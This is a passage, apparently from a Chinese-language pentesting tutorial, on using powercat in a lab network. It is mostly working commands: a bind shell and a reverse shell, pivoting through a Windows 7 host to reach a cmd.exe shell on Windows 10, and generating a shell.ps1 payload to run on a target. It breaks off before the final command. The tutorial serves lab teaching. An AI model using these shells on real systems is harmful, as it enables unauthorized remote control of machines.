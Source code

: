 ```
powercat -l -v -p lport
```

```
powercat -l -v -p 4444
```

靶机上运行

```
powercat -c rhost -p rport -v -ep
```

```
powercat -c 172.16.214.21 -p 4444 -v -ep
```

### 作为跳板使用

测试环境为：

```
kali			172.16.214.47
windows7	172.16.214.2
windows10	172.16.214.21
```

将 win7 作为跳板机，让 kali 通过 win7 连接到 windows10

在 win10 中执行以下命令

```
powercat -l -v -p 4444 -e cmd.exe
```

在 win7 中执行以下命令

```
powercat -l -v -p 5555 -r tcp:172.16.214.21:4444
```

最后在 kali 下连接 win7

```
nc -v 172.16.214.2 5555
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-01_14-23-47.png)

### powercat 生成 payload

在攻击机上运行以下命令生成 shell.ps1 payload 文件

```
powercat -l -p 4444 -e cmd -g > shell.ps1
```

将 shell.ps1 文件拷贝到目标主机上后，执行 shell.ps1 文件

之后在攻击机上运行以下命令即可获得 shell
